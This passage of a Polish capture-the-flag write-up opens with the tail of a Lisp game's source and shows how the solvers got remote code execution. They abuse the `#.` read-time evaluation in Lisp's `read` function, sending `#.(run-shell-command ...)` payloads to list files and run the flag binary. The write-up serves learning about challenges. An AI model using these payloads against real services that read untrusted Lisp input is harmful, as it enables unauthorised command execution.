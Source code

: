 ```lisp
             )
        when (loop for mpos in monsters
                   always (> (count mpos monsters) 1))
        return (win)
        ))

(handler-case
  (loop while (= (play-game) 1))
  (error (e) (write-line "Invalid command")))
```

Następnie zaczęliśmy analizę kodu w poszukiwaniu podatności.
W kodzie są tylko 3 miejsca gdzie podajemy jakieś dane więc skupiliśmy się na nich.
Dane są wczytywane za pomocą funkcji `read` więc szukaliśmy informacji na temat exploitowaniu jej.
Trafiliśmy na: http://irreal.org/blog/?p=638

I to było dokładnie to czego potrzebowaliśmy!
Wysyłając:

```
#.(lisp_code)
```

Dostajemy remote code execution.
Następnie sprawdziliśmy jak wykonywać komendy shell z poziomu LISPa i wysłaliśmy:

```
#.(run-shell-command "ls")
```

Aby znaleźć falgę w `/getflag/flag` a następnie:

```
#.(run-shell-command "./getflag/flag")
```

Aby odczytać flagę
